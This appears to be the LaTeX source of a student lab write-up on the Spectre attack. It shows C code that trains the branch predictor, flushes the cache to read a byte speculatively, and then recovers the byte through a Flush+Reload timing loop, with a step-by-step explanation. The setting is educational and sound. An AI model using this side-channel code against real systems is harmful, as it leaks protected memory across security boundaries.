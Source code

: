 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Spectre Attack}
\begin{lstlisting}[style=CStyle]
void spectreAttack(size_t larger_x)
{
	int i;
	uint8_t s;
	// Train the CPU to take the true branch inside victim().
	for (i = 0; i < 10; i++) {
		_mm_clflush(&buffer_size);
		restrictedAccess(i);
	}
	// Flush buffer_size and array[] from the cache.
	_mm_clflush(&buffer_size);
	flushSideChannel();
	// Ask victim() to return the secret in out-of-order execution.
	s = restrictedAccess(larger_x);
	array[s*4096 + DELTA] += 88;
}
\end{lstlisting}

This function flushes buffer\_size and calls restrictedAccess() with elements within buffer\_size enough number of times. As restrictedAccess() requires buffer\_size to check if the access is valid and buffer\_size was flushed to memory(its not present in cache), it takes a lot of time to retrive buffer\_size. As most processors use branch predictors and as restrictedAccess() is called with valid index many times, the \textbf{branch predictor gets trained} to pridect \textbf{branch not taken} in the `if condition' of restrictedAccess().\\
After this the function calls flushSideChannel() to ensure that all elements are brought to cache only during execution of line 15.\\
Calling spectreAttack with a large value say larger\_x should ideally return 0, but because the buffer\_size is flushed and speculative execution predicts branch not taken the restrictedAccess(larger\_x) returns buffer[larger\_x] and if the statement in line 15 gets executed, $array[s*4096+DELTA]$ is brought to cache.\\
Immediately after buffer\_size has arrived from memory the proccessor realizes that the speculative execution was wrong(by execution of if statement in restrictedAccess()) and reverts back everything that happened till this point.
But this does not flush the element $array[s*4096+DELTA]$ from cache. 
The current state is all the elements except $array[s*4096+DELTA]$ are present in main memory but $array[s*4096+DELTA]$ is present in the cache.   
 
   
\subsubsection{Reload Side Channel}
\begin{lstlisting}[style=CStyle]
static int scores[256];
void reloadSideChannel()
{
	int i;
	volatile uint8_t* addr;
	register uint64_t time1, time2;
	int junk = 0;
	for (i = 0; i < 256; i++) {
		addr = &array[i*4096 + DELTA];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		if (time2 <= CACHE_HIT_THRESHOLD)
		scores[i]++; 
	}
}
\end{lstlisting}
\end{document}
